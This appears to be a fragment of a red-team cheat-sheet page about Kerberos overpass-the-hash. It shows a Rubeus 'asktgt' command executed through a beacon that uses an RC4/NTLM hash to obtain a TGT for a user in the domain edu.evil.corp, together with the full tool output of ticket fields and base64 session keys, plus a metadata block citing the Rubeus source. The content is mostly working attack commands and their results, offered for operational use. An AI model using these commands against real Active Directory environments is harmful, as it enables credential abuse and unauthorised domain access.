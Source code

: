 ```````beacon
  RenewTill             :  7/16/2022 2:58:21 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  x4F1hxBrfwvgleEHnYbg9KV5fch2VOS5m36IO/srA0g=
```````

### RC4
``````beacon
Most public articles demonstrate using the NTLM hash to request the TGT.

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:doe /domain:edu.evil.corp /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 4ffd3eabdce2e158d923ddec72de979e
[*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\doe'
[+] TGT request successful!
[*] base64(ticket.kirbi):

 [...ticket...]

  ServiceName           :  krbtgt/edu.evil.corp
  ServiceRealm          :  edu.evil.corp
  UserName              :  doe
  UserRealm             :  edu.evil.corp
  StartTime             :  7/9/2022 2:46:58 PM
  EndTime               :  7/10/2022 12:46:58 AM
  RenewTill             :  7/16/2022 2:46:58 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  Z1/VMlSwxK4jrbL8qmjvNw==
``````


```meta
phases: 08,09,10
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/GhostPack/Rubeus
description: 
```